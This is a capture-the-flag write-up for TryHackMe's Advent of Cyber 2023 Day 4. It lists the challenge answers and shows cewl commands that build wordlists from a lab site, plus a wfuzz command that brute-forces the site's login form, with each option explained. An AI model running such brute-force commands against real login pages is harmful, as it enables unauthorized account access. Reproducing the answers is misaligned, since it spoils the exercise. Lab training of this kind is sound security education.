 # Advent of Cyber 2023

-------------------------------------

Day 4: Brute Force - Baby, It's CeWLd outside

- What is the correct username and password combination? Format username:password
	- `isaias:Happiness`

- What is the flag?
	- `THM`

#### Steps:

1. Create a password list and username that is based on the words from the website. Using cewl

```
cewl -d 2 -m 5 -w passwords.txt http://10.10.44.85 --with-numbers
cewl -d 0 -m 5 -w usernames.txt http://10.10.44.85/team.php --lowercase
```

2. Use the wfuzz to brute force through the website /login.php. Using the password and username list. 

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.44.85/login.php -d "username=FUZZ&password=FUZ2Z"
```
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/b69ae48d-311a-4285-8f32-48f410560328)

<details>
In the command above:

-z file,usernames.txt loads the usernames list.

-z file,passwords.txt uses the password list generated by CeWL.

--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
-u specifies the target URL.

-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.
</details>

3. Use the crendentials from the bruteforce information. 
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/daaa6f1c-c16d-48e3-8c7a-0390311cbbe2)

```
http://10.10.44.85/login.php
```
